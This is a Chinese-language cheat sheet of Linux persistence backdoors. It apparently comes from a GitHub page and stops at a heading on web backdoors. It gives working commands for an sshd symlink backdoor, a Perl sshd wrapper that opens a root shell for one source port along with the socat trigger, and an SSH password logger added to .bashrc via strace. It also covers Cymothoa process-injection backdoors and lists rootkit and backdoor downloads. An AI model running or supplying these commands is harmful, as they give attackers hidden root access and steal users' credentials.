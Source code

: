 **硬链接sshd**

```
#!bash
ln -sf /usr/sbin/sshd /tmp/su; /tmp/su -oPort=2333;
```

链接：ssh root@192.168.206.142 -p 2333

**SSH Server wrapper**

```
#!bash
cd /usr/sbin
mv sshd ../bin
echo '#!/usr/bin/perl' >sshd
echo 'exec "/bin/sh" if (getpeername(STDIN) =~ /^..4A/);' >>sshd
echo 'exec {"/usr/bin/sshd"} "/usr/sbin/sshd",@ARGV,' >>sshd
chmod u+x sshd
//不用重启也行
/etc/init.d/sshd restart
```

```
socat STDIO TCP4:192.168.206.142:22,sourceport=13377
```

**SSH keylogger**

vim当前用户下的.bashrc文件,末尾添加

```
#!bash
alias ssh='strace -o /tmp/sshpwd-`date '+%d%h%m%s'`.log -e read,write,connect -s2048 ssh'
```

source .bashrc

**Cymothoa\_进程注入backdoor**

```
./cymothoa -p 2270 -s 1 -y 7777
```

```
nc -vv ip 7777
```

**rootkit**

* [openssh\_rootkit](http://core.ipsecs.com/rootkit/patch-to-hack/0x06-openssh-5.9p1.patch.tar.gz)
* [Kbeast\_rootkit](http://core.ipsecs.com/rootkit/kernel-rootkit/ipsecs-kbeast-v1.tar.gz)
* Mafix + Suterusu rootkit

**Tools**

* [Vegile](https://github.com/Screetsec/Vegile)
* [backdoor](https://github.com/icco/backdoor)

### WEB后门
